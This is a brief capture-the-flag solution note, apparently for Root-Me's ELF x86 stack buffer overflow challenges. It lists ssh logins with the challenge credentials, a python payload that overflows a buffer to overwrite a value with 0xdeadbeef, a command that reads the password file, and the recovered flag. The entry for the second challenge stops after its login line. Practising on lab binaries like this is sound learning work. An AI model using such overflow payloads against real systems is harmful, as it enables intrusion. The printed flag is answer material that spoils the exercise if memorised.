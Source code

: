 # app-server 

## ELF x86 - Stack buffer overflow basic 1

- sshpass -p 'app-systeme-ch13' ssh -p 2222 app-systeme-ch13@challenge02.root-me.org

- (python -c 'print "A"*40 + "\xef\xbe\xad\xde\xaf"';cat) | ./ch13 

- cat .passwd

- 1w4ntm0r3pr0np1s 

## ELF x86 - Stack buffer overflow basic 2

- sshpass -p 'app-systeme-ch15' ssh -p 2222 app-systeme-ch15@challenge02.root-me.org 

- 